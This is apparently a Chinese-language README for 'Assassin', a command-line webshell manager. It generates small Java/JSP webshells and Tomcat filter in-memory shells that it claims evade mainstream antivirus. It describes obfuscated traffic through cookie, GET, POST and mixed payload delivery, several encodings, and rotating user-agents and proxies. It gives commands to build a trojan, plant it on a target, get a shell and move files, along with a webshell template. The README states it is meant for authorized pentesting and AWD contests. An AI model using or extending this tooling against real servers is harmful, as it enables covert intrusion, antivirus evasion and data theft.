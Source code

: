 # Assassin

>Assassin是一款精简的基于命令行的webshell管理工具，它有着多种payload发送方式和编码方式，以及精简的payload代码，使得它成为隐蔽的暗杀者，难以被很好的防御。

自用工具开源互相学习，生成的webshell能够过目前主流杀毒软件(36x、腾x等，目前能过，后面可能很快就不行了，需要稍微变换webshell代码以再次免杀) 连接后交互的流量特征几乎没有，具体payload发送方式均可自定义。由于个人精力有限，~~因为懒~~，服务端暂时仅支持Java。

**声明：主要面向网络安全人员已授权的合法渗透或学生AWD等比赛使用，任何人不得将其用于非法用途以及盈利等目的，否则后果自行承担**

## 特点

**[1]** 生成的webshell能过主流杀软 36x、腾x等等(以后可能就不行了，需要稍加更改代码，webshell模板可以自定义修改)

**[2]** webshell仅1kb大小，客户端与服务端完成连接后发送payload十分精简

**[3]** payload能够以get、post、cookie、mixed四种方式发送，可动态修改，流量迷惑性较强

**[4]** 客户端与服务端交互流量支持多种编码方式，可动态修改

**[5]** payload发送的参数名以及数量均可自定义，支持随机ip代理和user-agent

## 软件截图

软件类似于MSF的操作模式

![](assets/2021-11-23-14-26-25.png)

![](assets/2021-11-23-16-26-42.png)

![](assets/2021-11-23-16-47-25.png)


## 发送的payload流量示例

![](assets/2021-11-23-18-26-04.png)

cookie：
![](assets/2021-11-23-16-51-06.png)

post：
![](assets/2021-11-23-17-08-53.png)

mixed：
![](assets/2021-11-23-17-12-14.png)

get：
![](assets/2021-11-23-17-18-56.png)

除了cookie方式，get、post、mixed可以在已经建立连接后动态修改发送方式，无需更改服务端

请求编码：
1. base64
2. base36
3. hex

响应编码：
1. base64
2. raw
3. base36
4. hex

其中响应的编码方式可以动态修改

## 使用教程

### 适用版本

服务端：jre 1.5及以上

客户端：jdk 1.8及以上

### 配置文件

```json
{
  "paramNames": ["user", "file", "id", "eid", "wd", "ie", "oq", "name", "son"],
  // get、post、mixed请求参数名的随机池
  "cookieNames": ["fid", "uuid", "eid", "home", "ief", "fl", "oop"],
  // cookie请求参数名的随机池
  "headers":{
    "Accept":"text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9",
    "Accept-Encoding":"gzip, deflate, br",
    "Accept-Language":"Accept-Language: zh-CN,zh;q=0.9",
    "Upgrade-Insecure-Requests": "1"
  },
  // http头部
  "partNum": 3,
  // payload首次发送的分块数量
  "argNum": 5,
  // 每次请求的参数个数，不能超过paramNames或者cookieNames的参数个数
  "startRandomUserAgent": false,
  // 是否随机useragent
  "startIpAgents": false,
  // 是否开启ip池代理模式
  "startColor": true
  // 是否启用命令行颜色
}
```

随机useragent采用./useragents.txt里的useragent，开启后每次请求都会更换useragent，一般配合ip代理使用，关闭时是每次用session命令启动一个webshell会话一个useragent。

ip代理池使用./ipagents.txt，格式为```ip:posr;username:password```，不需要认证的话```ip:port```就可以了，开启后每次请求会从中选择一个代理。

**Tip：windows用户启动后乱码请关闭"startColor"，或者使用Windows Terminal启动**

### 帮助信息

所有命令使用都比较简单，可以通过help命令查看参数

![](assets/2021-11-23-19-52-59.png)

```help [command]``` 查看具体命令的帮助

![](assets/2021-11-23-19-53-56.png)

### 实例

```bash
new java 123 cookie
# 生成密码为123 发送方式为cookie的普通jsp木马
new java pass post reqEncode=base36 tamper=tomcat9_filter
# 生成密码为pass 发送方式为post 请求用base36编码的tomcat9 filter内存马 
```
**Tips：add和new命令参数比较多，中括号包裹的可选参数还可以用key=value的方式赋值**

之后会弹出窗口选择保存位置

![](assets/2021-11-23-20-00-26.png)

将webshell上到目标服务器

```bash
add http://192.168.48.130:8080/1.jsp 123 java method=cookie resEncode=base36
# 添加webshell 密码123 java马 cookie传参 请求编码默认base64 响应编码base36
```
```show```查看ID号
![](assets/2021-11-23-20-06-56.png)

```session 1```连接webshell

![](assets/2021-11-23-20-08-19.png)

看到提示符发生变化就可以执行webshell controller commands的命令了！
```bash
Assassin|java >getshell
Assassin|java|C:\apache-tomcat-9.0.54\bin >dir
```

上传文件

```bash
upload # 没参数默认传到当前目录
```

![](assets/2021-11-23-20-25-16.png)

选择文件即可上传

```download ./test.txt```同理

![](assets/2021-11-23-20-27-15.png)

![](assets/2021-11-23-20-28-04.png)

### 编写webshell模板tamper

![](assets/2021-11-23-20-14-14.png)

第一个部分用{@key}填充，代表 webshell密码

第二个部分用{@getvalue}填充，代表 获取请求payload的代码

第三个部分用{@decode}填充，代表 解码代码

模板如下：

```java
String k="{@key}";// aes密钥 123456 md5的前16位
String r = ""; //密文payload存放位置，这个参数名必须为r，其他的无所谓
// 取密文
{@getvalue}
byte[] cText = {@decode};
```

其他主要逻辑不改，就可以成功连接。

**实例**

请看webshell/java/下的tomcat的filter内存马模板







